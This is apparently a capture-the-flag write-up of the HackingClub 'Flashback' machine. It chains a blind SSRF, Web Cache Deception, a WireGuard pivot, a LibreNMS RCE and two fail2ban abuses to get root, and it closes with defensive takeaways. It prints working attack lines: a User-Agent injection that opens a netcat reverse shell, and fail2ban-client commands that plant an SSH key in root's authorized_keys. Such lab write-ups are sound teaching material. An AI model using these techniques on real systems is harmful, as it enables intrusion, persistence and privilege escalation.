


> Writeup of the **Flashback** machine (HackingClub): a blind SSRF inside an _anti-phishing_ form,
> **Web Cache Deception** to capture the staff session, a **WireGuard** pivot into a **LibreNMS**,
> authenticated RCE (**CVE-2026-55182**), and two **fail2ban** abuses — a User-Agent the root user
> executes and a `sudo fail2ban-client` — up to **root**. Flags are shown **redacted** (`REDACTED`).
> _[Leia em português](/posts/hc-flashback/)._

The machine opens with a gesture of good faith. The Halcyon Electric portal has a friendly card:
_"got an SMS or email telling you to 'verify your account'? Paste the link here. Our security team
opens every reported link in the staff console to see where it leads."_ It's the company's
anti-phishing defense. You paste a suspicious link; an analyst looks at it for you. Kind.

The room's name is the hint. _Flashback_: the system is about to replay, for an anonymous stranger, a
moment that belonged to someone else — an employee's authenticated session, served back by a cache
that should never have stored a thing. The form built to protect you from a scam is itself the way in.

The whole chain in one sentence: reporting a link triggers a **blind SSRF** through an authenticated
bot → **Web Cache Deception** forces nginx to store the staff response under a `.css` URL → I re-read
it **logged out** and steal the dashboard → out of it come an **API token** and a **WireGuard
profile** → I enter the **OT** segment, find a **LibreNMS** and land **RCE** (CVE-2026-55182) → I drop
into a container, from which I abuse the host's **fail2ban** with a **malicious User-Agent** to become
a user → and a passwordless `sudo fail2ban-client` hands me **root**.

## Recon: three ports and a second name hidden in the certificate

Quick scan with [rustscan](https://github.com/RustScan/RustScan) pushing nmap behind it:

```console
$ nmap flashback.hc -sC -sV
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 10.2p1 Ubuntu
80/tcp  open  http     nginx 1.28.3 (Ubuntu)
|_http-title: Did not follow redirect to https://flashback.hc/
443/tcp open  ssl/http nginx 1.28.3 (Ubuntu)
| ssl-cert: Subject: commonName=flashback.hc
| Subject Alternative Name: DNS:flashback.hc, DNS:ops.flashback.hc
|_http-title: My Halcyon \xE2\x80\x94 customer portal
```

Three ports, but the recon gold is in the TLS certificate: the _Subject Alternative Name_ lists a
second host — **`ops.flashback.hc`**. The public portal is the façade; `ops` is the vault. Both into
`/etc/hosts` and on we go.


`flashback.hc` is a power utility portal: network status, outage reports, and that form to report
suspicious messages. `ops.flashback.hc` answers something else — a "Staff console" login page.



No credentials, no username, no obvious version to attack. The whole interesting surface sits behind
that login. So the question becomes: **how do I make someone who is already logged in work for me?**

## The fetcher: reporting a link is a blind SSRF

The form sends a `POST /phishing` with a `link` field. I spin up a `python -m http.server` and paste
my own address into the field:

```console
$ python -m http.server 4444
172.16.x.x - - [12:38:19] "GET / HTTP/1.1" 200 -
```

It arrived. The server **fetches whatever URL I give it** — that's an SSRF. The HTTP response, though,
is always the same _"Report received"_ page, no matter what I point at. So it's **blind**: the fetched
content never comes back to me through the response. The page itself says it: _"reported links are
opened in the staff console."_

I need to characterize this fetcher before dreaming of an exploit. I serve a page with three beacons —
an ``, a CSS file and a `<script>` — and watch what it pulls:

```text
172.16.x.x - - [13:22:26] "GET / HTTP/1.1" 200 -
```

Just the `GET /`. No image, no CSS, no JS. Conclusion: **it's not a real browser** — it's a simple
server-side fetcher that does **a single GET** on the exact URL and stops. That kills any dream of XSS
or client-side exfil. A second test, with a 302 redirector, reveals two more useful properties:

```text
HIT /redir           UA=HalcyonTriageBot/1.1
HIT /redir-followed  UA=HalcyonTriageBot/1.1
```

The bot identifies as **`HalcyonTriageBot/1.1`** and **follows redirects**. So I have a robot that, on
my request, does an authenticated GET as staff against any URL — but I'm blind to the result. A blind
SSRF against an authenticated target is frustrating… unless I find **where its response gets stored**.

## Web Cache Deception: forcing nginx to store the staff session

`ops` has an `nginx` in front, and nginx in front almost always means **cache**. The question is: what
rule decides what gets cached? A battery of logged-out probes, watching the `X-Cache` header, answers:

| Request                | Status      | X-Cache  | Reading                          |
| ---------------------- | ----------- | -------- | -------------------------------- |
| `GET /`                | 302 → login | PASS     | not cacheable                    |
| `GET /dashboard`       | 302 → login | PASS     | known route, not cacheable       |
| `GET /dashboard/x.css` | 302 → login | **MISS** | **cacheable** (`.css` extension) |
| `GET /anything.css`    | 302 → login | **MISS** | **cacheable** (any `.css`)       |
| `GET /assets/noext`    | 302 → login | PASS     | no extension → not cacheable     |

The rule keys on the **extension** (`.css`), not on the `/assets/` prefix. `PASS` means "never
caches"; `MISS` means "cacheable, but not in cache yet." And one detail makes the attack clean:
repeating a `.css` URL while logged out keeps returning **MISS** — nginx **does not store the 302** of
an anonymous user. So my anonymous touch never pollutes the slot; only a `200` response fills it.

Here the pieces click. **Web Cache Deception**: I make the bot (logged in as staff) request a URL that
_ends in `.css`_ but that the backend serves as an **authenticated page** `200`. nginx, seeing the
extension, thinks it's a static file and **caches the response**. Then I, logged out, read the same URL
— and the cache hands me the staff page with a `HIT`.

The first shot misses nicely: I point the bot at `/assets/console.css`, which actually exists — a
public CSS, the same for everyone, useless. The fix is to use a `.css` path that **doesn't exist**:
the app's auth _catch-all_ returns the dashboard page (`200`) at that path, and _that_ response is the
one worth caching.

```text
1. Bot fetches (via /phishing):  http://ops.flashback.hc/assets/pwn.css   ← does not exist
2. The authenticated ops serves the dashboard 200 at that path  → nginx caches it
3. I re-read logged out  GET /assets/pwn.css  →  200 + X-Cache: HIT  → the staff dashboard
```

And the cache opens the door:



An analyst's whole session, replayed for me. _Flashback._

## What the dashboard hands over: a token and a route to the OT network

The staff page comes loaded. A **personal access token** (`triage:read cases:read
integrations:read`), the API base (`https://ops.flashback.hc/api`), and — the thread that unravels the
rest — an **OT integrations** card with the exact note: _"credentials and the WireGuard profile are
served by `GET /api/integrations`."_

I call the API with the token in `Authorization: Bearer`:

```console
$ curl -sk https://ops.flashback.hc/api/integrations -H "Authorization: Bearer <token>" | jq
{
  "integrations": [{
    "name": "OT network monitor (LibreNMS)",
    "url": "http://10.66.0.1:8000",
    "auth": { "type": "basic", "username": "otmonitor", "password": "<redacted>" },
    "notes": "Field network is segmented; attach to the field VPN before using the monitor.",
    "vpn": {
      "name": "field-ops",
      "endpoint": "172.16.x.x:51820",
      "profile": "[Interface]\nPrivateKey = <redacted>\nAddress = 10.66.0.2/32\n..."
    }
  }]
}
```

A **LibreNMS** at `10.66.0.1:8000`, on an isolated network segment, plaintext credentials and a whole
**WireGuard** profile to reach it. The `integrations:read` scope that looked harmless was the key to
the OT segment.

## Pivot: bring up the tunnel and reach the LibreNMS

I save the profile, bring the interface up, and confirm the handshake:

```console
$ sudo wg-quick up field-ops
$ sudo wg show field-ops        # latest handshake + transfer rx/tx
$ ping -c1 10.66.0.1            # tunnel up
```

> Field note: the WireGuard endpoint is whatever **the profile itself** hands out
> (`GET /api/integrations/vpn`). Since the lab resets and changes IP, the reliable way to bring the
> tunnel up is to always rewrite the `.conf` straight from that response before raising the interface
> — never guess the endpoint by hand.

`AllowedIPs = 10.66.0.0/24` keeps only that `/24` on the tunnel (split-tunnel), and the LibreNMS shows
up on the other side.

## RCE in LibreNMS: the alert transport that runs commands

`10.66.0.1:8000` answers `302 → /login` with `laravel_session` cookies — it's Laravel/PHP. The
`otmonitor` credentials aren't HTTP Basic; they're the **app login**. I log in, and `/about` gives the
version: **LibreNMS 26.4.1**. Better still, `otmonitor` is an **admin** (access to Settings, Global
Settings, Manage Users).

Version + admin lead me to **CVE-2026-55182**, an RCE in the _Signal alert transport_ (affects
`< 26.5.0`). The mechanics are elegant in their nastiness: the admin configures the Signal transport,
including the **path to the `signal-cli` binary**. LibreNMS passes the arguments through
`escapeshellarg`, but an internal script (`composer_wrapper.php`) does a **second interpretation**
without sanitizing. Point the `signal-cli` path at that wrapper and the arguments become commands. The
trigger is sending a **test alert** through the transport.

I build a Python reverse shell, use [penelope](https://github.com/brightio/penelope) as the handler,
and the callback lands:

```console
$ penelope
[+] Shell => librenms@2ba47a043012
librenms@2ba47a043012:/opt/librenms$ ls /.dockerenv && echo in-container
/.dockerenv
in-container
```

`uid=1000(librenms)`, a hash hostname and a `/.dockerenv` — I'm inside a **Docker container**, not the
host. The LibreNMS was just the shell.

## The map the host dropped into the container

Enumerating the container (network `172.18.0.0/16`: me at `.2`, MariaDB at `.3`, the gateway at `.1`)
doesn't get far — no sudo, no useful SUID. The find that matters is a **bind-mount** from the host, at
`/data/host-ops`:

```text
/data/host-ops/
├── README.txt
├── fail2ban/
│   ├── jail.local
│   ├── ot-adm-notify.conf
│   └── ot-monitor-pivot.conf
└── ot-notify-adm.sh
```

That folder is the script the machine left out in the open. The `README` describes a "pivot request"
only the container may make: a `GET /pivot-<token>` to the gateway, with a `User-Agent` under my
control. Reading the fail2ban files, the whole mechanism reveals itself:

- `jail.local` defines the `ot-monitor-pivot` jail, watching the gateway's nginx `access.log`, with
  `maxretry = 1`, `findtime = 5m`, `bantime = 5m`.
- `ot-monitor-pivot.conf` has the `failregex` that matches `GET /pivot-<token>` and **captures the
  User-Agent**; the `ignoreregex` requires the source to be `172.18.0.*` (from inside Docker).
- `ot-adm-notify.conf` is the `banaction`: when the jail bans an IP, it runs
  `runuser -u ademiro -- ot-notify-adm.sh "<User-Agent>" <ip>` — i.e. it **runs as the user
  `ademiro`**.
- And `ot-notify-adm.sh`:

```sh
#!/bin/sh
eval "notify-send Banned: $1 from $2" 2>/dev/null || true
```

An **`eval` on `$1`**, which is my User-Agent. The ban notification executes the name of whoever
"attacked." Command injection by design: I get myself banned on purpose, and in the ban notice the host
runs whatever I send — as `ademiro`.

## The User-Agent injection: the escaping that almost fooled me

The trap here is subtle, and it cost me time. The obvious pattern — "close the quote, inject, reopen" —
**doesn't work**, for two reasons that only show up when you look closely.

When the shell assembles the string for `eval`, the outer quotes disappear and `$1` lands **without
quotes around it**:

```text
eval "notify-send Banned: $1 from $2"   →   notify-send Banned: <UA> from <ip>
```

So a payload like `"; command ; echo "` sabotages itself: the opening quote pairs with the closing one,
the `;` ends up **inside** a literal string, and the command becomes text handed to `notify-send`.
Worse: a double quote in the User-Agent **breaks the `failregex` itself** (the UA field in the log is
`"[^"]*"`, which rejects `"`), so the ban wouldn't even fire properly. Two reasons for the silence,
neither obvious.

The fix is to use no quotes at all. Since `$1` lands bare, `; command ;` is enough. I validated it
locally before spending a shot:

```console
$ test(){ eval "notify-send Banned: $1 from $2" 2>/dev/null || true; }
$ test '; echo INJECTED id=$(id -un) ;' "1.2.3.4"
INJECTED id=rt
```

I fire the trigger **from inside the container** (source `172.18.0.*`), with the payload in curl's
`-A`. The command runs as `ademiro` **on the host**, and the callback has to come back to the container
(`172.18.0.2`), which the gateway reaches over the Docker bridge:

```console
$ curl -s http://172.18.0.1/pivot-<token> \
    -A '; rm -f /tmp/.f;mkfifo /tmp/.f;cat /tmp/.f|sh -i 2>&1|nc 172.18.0.2 4446 >/tmp/.f ;'
```

One tactical detail sets the rhythm: `maxretry=1 / bantime=5m` gives **one shot every 5 minutes**.
After each ban the IP stays "banned" and the `banaction` won't run again until the window expires. So
no bursts: one payload, wait, another payload.

The `ademiro` shell lands — but raw, no PTY, unstable. Instead of fighting it, I spend **one** trigger
to plant real persistence: the ban notification writes my public key into `ademiro`'s
`~/.ssh/authorized_keys`. From there, a clean, reconnectable SSH:

```console
$ ssh -i ademiro_key ademiro@flashback.hc
ademiro@ip-172-16-6-126:~$ cat ~/user.txt
hackingclub{REDACTED  ·  user}
```

First flag. And, as a bonus, I'm out of the 5-minute roulette.

## Root: the `fail2ban-client` you can run as root

`ademiro` has a telling `sudo`:

```console
ademiro@ip-172-16-6-126:~$ sudo -l
User ademiro may run the following commands:
    (root) NOPASSWD: /usr/bin/fail2ban-client
```

The machine returns to its own theme: fail2ban brought me here, and it's fail2ban that takes me
further. `fail2ban-client` talks to the fail2ban server, **which runs as root**. And the server lets
you define, at runtime, the command a jail executes when it bans an IP. So I create an action with
whatever command I want and trigger a ban — the command runs as root:

```console
$ sudo fail2ban-client set ot-monitor-pivot addaction pwn
$ sudo fail2ban-client set ot-monitor-pivot action pwn actionban \
    "mkdir -p /root/.ssh; echo <my-pubkey> >> /root/.ssh/authorized_keys; chmod 600 /root/.ssh/authorized_keys"
$ sudo fail2ban-client set ot-monitor-pivot banip 9.9.9.3
```

Two stones in the path, both instructive. The first attempt was a `cp /bin/bash` with the SUID bit —
and it failed: `/tmp` is mounted **`nosuid`**, so the SUID bit is simply ignored at execution. The
second stone: each `banip` needs a **fresh IP**, otherwise the target is already banned and the
`banaction` won't run again. Working around both, the clean route is the same as before — **plant an
SSH key**, this time in `/root`.

Since sshd accepts root login by key (`prohibit-password`), the key in `authorized_keys` is worth a
direct root shell:

```console
$ ssh -i ademiro_key root@flashback.hc
root@ip-172-16-6-126:~# cat /root/root.txt
hackingclub{REDACTED  ·  root}
```

Root. The whole machine.

## Takeaways

Flashback leans on no exotic 0-day — it leans on **misplaced trust**, layer after layer, and on a
narrative where every defense becomes a vector:

- **The anti-phishing feature is the SSRF.** "We report suspicious links by opening them in the staff
  console" is an attacker-controlled authenticated fetcher. If a bot opens user links with privilege,
  treat it as SSRF from day one — isolate the fetcher, never run it authenticated.
- **Caching by extension is Web Cache Deception waiting to happen.** Deciding to cache based on a
  trailing `.css`, ignoring what the backend actually answered, lets nginx store an authenticated
  `200` page under a public key. Cache on the response's `Content-Type` and cache headers, not on the
  path extension.
- **"Read" scopes aren't harmless.** `integrations:read` looked like passive reads; it handed over
  credentials and a VPN into another segment. A secret the API returns is a secret that leaked.
- **Segmenting the network isn't enough if the VPN key is in the API.** The OT was isolated — and the
  way into it sat in an authenticated endpoint, one WCD away.
- **Logging the User-Agent and then `eval`-ing it is RCE.** `ot-notify-adm.sh` turns a ban
  notification into execution of the attacker's name. Never run log data through `eval`; never trust
  the User-Agent.
- **`sudo` on `fail2ban-client` is `sudo` on any command.** A tool that defines and triggers root
  commands is a door to root. The same goes for most administrative "clients" in the sudoers.

The room's message is in its name. A cache that replays someone else's session, a fail2ban that runs
the name of the very person it just banned: Flashback is made of systems that **repeat**, to the wrong
person, something they should have forgotten. Telemetry, caching and defensive automation aren't
neutral — done carelessly, they store and replay exactly what the attacker needs.
